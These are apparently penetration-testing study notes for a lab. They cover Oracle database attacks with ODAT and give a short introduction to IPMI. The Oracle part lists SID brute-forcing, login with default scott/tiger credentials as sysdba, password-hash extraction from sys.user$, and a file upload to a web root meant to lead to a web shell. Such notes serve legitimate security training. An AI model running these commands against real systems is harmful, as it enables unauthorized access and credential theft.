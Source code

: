 ```c
pip3 install pycryptodome

```

Odat
- Oracle Database Attacking Tool 
	- `./odat.py -h` to check if installed

SIDs
- In Oracle Relational Database Management Systems (RDBMS), SID is a unique name that identifies particular database **instance**
	- Instance: set of processes and memory structures that interact to manage database's data
- When client connects to Oracle database, specifies database's SID, with connection string
	- If no SID specified, default value in `tnsnames.ora` used
- SID bruteforcing
	- `nmap p1521 -sV 10.129.204.235 --open --script oracle-sid-brute`
	- `./odat.py all -s 10.129.204.235`
		- odat scans may retrieve database names, versions, running processes, user accounts, vulnerabilities, misconfiguraitons, etc.
		- may find valid credentials -> can log in

Logging in
- sqlplus
	- `sqlplus scott/tiger@10.129.204.235/[SID]`
	- if get error: sqlplus: error while loading shared libraries: libsqlplus.so
		- `sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`
	- can try logging in as System Database Admin
		- `sqlplus scott/tiger@10.129.204.235/[SID] as sysdba`
	- extract password hashes
		- `select name, password from sys.user$;`
	- Uploading web shell to target
		- requires server to run a web server, and need to know exact location of root directory of webserver
			- can try default paths
				- Linux: /var/www/html
				- Windows: C:\inetpub\wwwroot
	- File upload
		- `echo "Oracle File Upload Test" > testing.txt`
		- `./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
		- Can test if file upload approach worked with curl
			- `curl -X GET http://10.129.204.235/testing.txt`
`

# IPMI
- Important ports
	- UDP 623
- Intelligent Platform Management Interface (IPMI)
- Gives administrators remote hardware-level control and monitoring independent of host OS - power on/off, hardware sensors, remote console...
	- Via dedicated Baseboard Management Controller (BMC)
		- BMCs usually built into many motherboards, but can also be added to system as a PCI card
		- Servers either come with BMC or support adding a BMC
	- If can access BMC, gain full access to host motherboard. Can monitor, reboot, power off, reinstall host OS...

